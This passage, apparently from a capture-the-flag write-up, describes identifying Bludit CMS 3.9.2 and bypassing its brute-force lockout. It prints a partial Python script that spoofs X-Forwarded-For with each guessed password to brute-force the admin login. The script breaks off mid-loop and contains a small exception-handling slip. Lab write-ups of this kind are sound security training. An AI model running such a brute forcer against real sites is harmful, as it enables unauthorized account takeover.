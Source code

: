 The header of the file `config.log` contained the line "`/bl-kernel/img/favicon.png?version=3.9.2`" which told me the version of the Bludit service was 3.9.2 . I did some research on "bludit 3.9.2 exploit" which led me to a few useful sites.

* [https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb](https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb)
* [https://rastating.github.io/bludit-brute-force-mitigation-bypass/](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) 
* [https://github.com/bludit/bludit/issues/1081](https://github.com/bludit/bludit/issues/1081)

From the information in these sites I gained enough information to craft a Python script to brute force the login of the CMS.  At first my script ran very slowly, so I looked up how to make the script multi-threaded to speed things up a bit. 

* [https://github.com/averagesecurityguy/scripts/blob/master/bruteforce/multi\_ssh.py](https://github.com/averagesecurityguy/scripts/blob/master/bruteforce/multi_ssh.py) 

```python
#!/usr/bin/env python3

import multiprocessing
import sys
import time
from multiprocessing import Queue
import re
import requests

def worker(cred_queue, success_queue):
    print('Starting new worker thread.')
    while True:
        try:
            password = cred_queue.get(timeout=10)
        except Queue.Empty:
            return 

        try:

                session = requests.Session()
                login_page = session.get(login_url)
                csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

                print('[*] Trying: {p}'.format(p = password))

                headers = {
                    'X-Forwarded-For': password,
                    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
                    'Referer': login_url
                }

                data = {
                    'tokenCSRF': csrf_token,
                    'username': username,
                    'password': password,
                    'save': ''
                }

                login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

                if 'location' in login_result.headers:
                    if '/admin/dashboard' in login_result.headers['location']:
                        print()
                        print('SUCCESS: Password found!')
```